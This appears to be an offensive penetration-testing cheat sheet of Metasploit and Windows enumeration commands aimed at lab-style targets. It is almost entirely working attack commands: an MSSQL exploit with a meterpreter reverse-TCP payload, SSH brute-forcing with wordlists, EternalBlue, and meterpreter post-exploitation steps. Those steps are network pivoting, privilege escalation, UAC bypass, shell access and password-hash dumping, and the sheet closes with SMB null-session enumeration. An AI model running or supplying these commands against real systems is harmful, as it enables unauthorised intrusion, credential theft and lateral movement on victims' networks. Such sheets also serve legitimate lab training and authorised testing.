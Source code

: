 mssql payload
```bash
use exploit/windows/mssql/mssql_payload
set rhosts 10.10.10.177
set rport 1433
set srvport 53
set username admin
set password qwerty
set payload windows/x64/meterpreter_reverse_tcp
```

ssh login enum (brute)
```bash
use auxiliary/scanner/ssh/ssh_login
show options
set rhosts 10.10.10.133
set user_file /usr/share/ncrack/minimal.usr
set pass_file /usr/share/ncrack/minimal.usr
set verbose true
run
```

eternal blue example:
```bash
use exploit/windows/smb/ms17_010_eternalblue
show options
set payload windows/x64/meterpreter/reverse_tcp
```

### meterpreter
```bash
meterpreter>run autoroute -s 172.16.50.0/24
background

sessions -l
sessions -i 1

sysinfo, ifconfig, route, getuid
getsystem (privesc)
bypassuac

download x /root/
upload x C:\\Windows
shell

use post/windows/gather/hashdump
```

### windows shares with null sessions

enumeration with kali/parrot tools:
```
nmblookup -A 10.16.64.223
smbclient -L //10.16.64.223 -N share
smbclient //10.16.64.223/share -N mount

enum4linux -a 10.10.10.13
```
